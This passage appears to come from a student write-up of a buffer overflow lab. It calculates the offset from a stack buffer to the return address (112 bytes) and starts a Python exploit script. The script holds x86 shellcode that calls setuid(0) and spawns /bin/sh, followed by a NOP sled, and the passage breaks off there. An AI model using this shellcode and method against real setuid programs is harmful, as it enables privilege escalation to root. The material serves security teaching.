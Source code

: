 - ``ebp``: **0xffffc998**
- `buffer` starting address: **0xffffc92c**

Now we can calculate the difference (0xffffc998 - 0xffffc92c), which is **108 bytes**.

<figure align="center">
  <img src="/images/week5/task3_4.png" alt="my alt text"/>
  <figcaption>Figure 13. Stack disposition.</figcaption>
</figure>

As we know how the stack frame disposition should be, we now know that the return address is located in the address next to the ebp, so from the start of the `buffer` to the return address, there is a 108+4=**112** bytes difference in the stack.

### Step 2

Having all the needed information, we started making changes to the python exploit script, that is the following:

```python=
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

```